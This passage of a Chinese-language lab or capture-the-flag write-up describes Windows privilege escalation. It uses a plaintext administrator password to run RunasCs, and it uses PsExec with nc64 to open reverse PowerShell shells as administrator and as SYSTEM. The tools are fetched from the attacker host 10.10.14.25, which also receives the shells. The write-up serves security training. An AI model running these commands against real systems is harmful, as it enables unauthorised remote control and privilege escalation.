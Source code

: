 ```powershell
enable-psremoting -force
set-wsmanquickconfig -force
```

都是没有权限执行，那就尝试直接显式登录到administrator

通过`s67u84zKq8IXw`尝试登录administrator时，没有输入密码的机会，如果是gui界面可以解决，但是cli界面的话可以通过runascs来解决这个UAC的问题

```bash
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

unzip RunasCs.zip

iwr http://10.10.14.25/RunasCs.exe -outfile runascs.exe

rlwrap -cAr nc -lvnp 443
.\runascs.exe administrator 's67u84zKq8IXw' powershell -r 10.10.14.25:443 -t 0
```

-t 0: 背景运行，从而即使运行出错也不会阻塞当前shell

##### 提权到system32

使用microsoft的psexec程序，提权到system
[PsTools](https://download.sysinternals.com/files/PSTools.zip)
[nc64.exe](https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe)
```powershell
iwr http://10.10.14.25/PsExec64.exe -outfile PsExec64.exe

iwr http://10.10.14.25/nc64.exe -outfile nc64.exe

.\PsEXEC64.exe -accepteula -i -s cmd.exe /c "C:\programdata\apps\nc64.exe 10.10.14.25 443 -e powershell.exe"
```

`psexec`，`-i`参数指定交互式运行，`-s`指定以系统权限执行，通过psexec调用cmd.exe，在通过cmd.exe调用nc，再通过nc调用powershell从而得到反弹shell












